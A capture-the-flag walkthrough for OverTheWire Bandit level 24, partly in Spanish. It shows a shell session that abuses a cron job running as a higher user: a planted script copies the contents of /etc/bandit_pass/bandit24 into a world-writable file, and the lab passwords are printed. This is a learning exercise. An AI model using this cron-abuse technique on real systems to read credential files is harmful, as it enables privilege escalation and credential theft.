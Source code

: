 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución

```
bandit23@bandit:~$ ls /etc/cron.d  
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat  
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir  
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24  
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null  
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null  
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh  
#!/bin/bash  
myname=$(whoami)  
cd /var/spool/$myname/foo  
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"  
for i in * .*;  
do  
if [ "$i" != "." -a "$i" != ".." ];  
then  
echo "Handling $i"  
owner="$(stat --format "%U" ./$i)"  
if [ "${owner}" = "bandit23" ]; then  
timeout -s 9 60 ./$i  
fi  
rm -f ./$i  
fi  
done  
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd  
bandit23@bandit:~$ cd /tmp/kd  
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >  
/tmp/kd/password" > script.sh  
bandit23@bandit:/tmp/kd$ cat script.sh  
cat /etc/bandit_pass/bandit24 > /tmp/kd/password  
bandit23@bandit:/tmp/kd$ chmod +x script.sh  
bandit23@bandit:/tmp/kd$ touch password  
bandit23@bandit:/tmp/kd$ chmod 666 password  
bandit23@bandit:/tmp/kd$ ls –la  
total 92  
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .  
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..  
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password  
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh  
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo  
bandit23@bandit:/tmp/kd$ ls -la  
total 92  
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .  
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..  
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password  
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh  
bandit23@bandit:/tmp/kd$ date  
Sun Sep 4 01:54:12 AM UTC 2022  
bandit23@bandit:/tmp/kd$ ls -la  
total 96  
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .  
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..  
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password  
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh  
bandit23@bandit:/tmp/kd$ cat password  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  
bandit23@bandit:/tmp/kd$
```

## Notas adicionales
cron, crontab.

## Referencias
https://overthewire.org/wargames/bandit/bandit24.html